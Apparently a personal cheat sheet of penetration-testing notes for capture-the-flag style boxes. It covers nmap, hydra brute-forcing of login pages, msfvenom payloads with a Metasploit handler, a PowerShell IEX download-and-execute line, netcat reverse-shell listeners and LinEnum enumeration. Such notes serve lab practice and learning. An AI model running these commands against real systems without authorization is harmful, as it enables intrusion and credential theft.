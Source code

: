 # Random notes that I have not filed yet

## Standard nmap scan
`sudo nmap -sC -sV -oA nmap/(box name) (IP)`

## Screenshots
### Howto
In Kali, `CTRL+SHIFT+PRINT SCREEN` brings up a target window, you can then use this to draw a rectangle around an area and take a picture. This picture is saved to your clipboard, which you can paste inside or outside of your VM
### Screenshot access when obtained
Windows: `hostname; whoami; ipconfig`

Linux: `hostname; whoami; ip a`

## Setup a simple web server
`python -m SimpleHTTPServer`

## Encoding file to remove bad characters, and copy to clipboard
`cat (filename) | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard`

Change `UTF-16LE` to `UTF-8` for Unix

## HTTP login pages
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/(chosen file) -s (port) (IP) http-get (subdirectory)`

## MSFVenom
### List payloads
`msfvenom -l payloads`
### List formats
`msfvenom -l formats`
### Create payload
`msfvenom -p (payload) LHOST=(IP) LPORT=(port) -f (format) -o (output filename)`

## Setup handler
In Metasploit: 

`use exploit/multi/handler`

`set payload (selected payload)`

`set LHOST tun0`

`set LPORT (port)`

`exploit -j` to run in background

## Check sessions in Metasploit
`sessions -i 1`

## Wordlists
### How to make nice wordlists
`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule (original password list you have) > password.lst`

## Decompilers
### DNSpy
Recommended for .NET

## Linux shell
### `!!`
Reruns previous command
### `$_`
Pulls out last argument from previous command
### `!$`
Pulls out last word from previous command (not quite the same as `$_`)

## Windows shell
### `allinfo`
Windows version of `ls -lah`
### `type`, `gc`
Windows version of `cat`
### `gci`
Shorthand for `get-childitem`, `gci -Hidden` is like `ls -a`
### Running files
Run files with `.\(filename)`
### Download from Windows shell
`IEX(New-Object Net.WebClient).downloadString('http://(IP/HOSTNAME)')`

## OS typing by TTL
Windows has a default of a 128 TTL, Unix has 64?

## Finding web server subdirectories
`gobuster dir -u '(IP)' -x (format) -w /usr/share/wordlists/dirbuster/(chosen wordlist) -o (output file)`

Sometimes you may want to use /usr/share/wordlists/seclists/ instead

## Reverse shells
### Where can they be found?
On Kali, find most in `/opt/nishang/Shells/`, `/usr/share/laudanum/php/`

Plenty at [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Netcat is fairly reliable, bash also works well
### Setup a listener for a reverse shell
`nc -lvnp 8081`

### Convert into a real shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

## Searchsploit
Path for Kali is `/usr/share/exploitdb/exploits/`

## evil-winrm
### `upload`
Uploads a file from your current working directory

## DNS servers
Typically running kerberos (:88), Windows RPC (:135), and ldap (:389), possibilty SMB (:445)

## tmux
When a bash command finishes running in a pane in tmux, it'll change the name from something like “nmap” to “bash”

## Java files
Unzip .jar to get the extra hidden files

Uncompress Java files with `jd-gui`

## Wordpress
Use `wpscan`

## Enumeration
`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
